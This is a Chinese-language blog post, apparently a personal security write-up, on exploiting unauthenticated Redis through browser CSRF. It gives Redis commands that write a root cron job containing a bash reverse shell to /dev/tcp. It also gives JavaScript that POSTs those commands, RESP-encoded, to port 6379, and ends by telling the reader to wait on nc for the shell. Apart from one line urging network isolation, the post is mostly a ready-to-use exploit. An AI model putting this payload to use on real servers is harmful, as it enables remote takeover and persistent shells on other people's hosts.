 ```yaml
---
layout: post
title: Redis CSRF漏洞调试记录
description: "redis csrf"
category: scanner
tags: [scanner]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# Redis CSRF漏洞调试记录

### 背景
过完年开工，就爆出了redis的CSRF漏洞。前有通过SSRF构造攻击报文执行redis命令，现在又出客户端请求伪造，redis未授权访问真是后患无穷。作为拥有大内网的“有钱人”们，还是做好网段隔离和访问控制，彻底消除隐患吧。

### 攻击原理
通过阅读
[ Whatsinmyredis作者的github项目](https://github.com/dxa4481/whatsinmyredis)
发现攻击方式为构造POST请求提交至Redis监听端口6379。在Redis对HTTP报文的处理过程中，每次出现%0d%0a换行，就认为是一条命令进行解析，同时在执行无意义的错误命令后，不会主动关闭tcp连接，而是继续执行下一条命令。因此HTTP报文的Header不会影响到POST正文的解析执行，从而形成了CSRF利用。

但是根据作者项目中js脚本的payload，发现无法在实际环境中执行，究其根本原因，还在于空格字符的干扰。虽然作者提供的示例无法直接拿来使用，不过还是暗中给出了解决该问题的链接地址：

{% highlight %}
http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html
{% endhighlight %}

这里不得不膜拜一下，人家早在2014年就开始玩HTTP报文攻击redis服务了。文章里提到了构造满足Redis Protocol格式的命令来避免空格的干扰，还提到了读取系统文件内容等利用方式。

通过将原始payload进行编码构造，终于实现了CSRF的任意redis命令执行。

### 攻击利用

在本地搭建的测试环境中，我们尝试利用Redis CSRF写入cron配置脚本，从而获取目标主机的反弹shell。从redis原始操作命令来看，需要4步程序：

1. 设置路径:

{% highlight %}
config set dir /var/spool/cron/
{% endhighlight %}

2. 设置文件名：

{% highlight %}
 config set dbfilename root
{% endhighlight %}

3. 将cron脚本写入key:

{% highlight %}
set wow "\n\n\n* * * * * bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\n\n\n"
{% endhighlight %}

4. 利用save命令写入系统目录:

{% highlight %}
SAVE
{% endhighlight %}

将这些命令编码，并构造成CSRF攻击页面，具体代码如下：

{% highlight javascript %}

      alert("向redis发送第一次请求");
	  var payload = "CONFIG SET dir /var/spool/cron/ \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

	  alert("向redis发送第二次请求");
	  var payload = "CONFIG SET dbfilename root \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

      alert("向redis发送第三次请求");
	  payload = "*3\r\n$3\r\nSET\r\n$4\r\ntest\r\n$62\r\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.33.129/9999 0>&1\n\n\n\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});


	  alert("向redis发送第四次请求");
	  payload = "SAVE\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

{% endhighlight %}

### 攻击效果

我们可以开启redis的monitor模式来查看攻击效果，
当我们访问CSRF页面时，可以看到这些命令在redis中被顺利执行了。
![redis执行记录](http://7xwdx7.com1.z0.glb.clouddn.com/redis-monitor.png)

同时，我们可以通过crontab -l查看目标主机，确认cron脚本已经被顺利写入文件系统。
![crontab状态](http://7xwdx7.com1.z0.glb.clouddn.com/crontab-list.png)

最后，就安安静静的开着nc等主机上线吧。
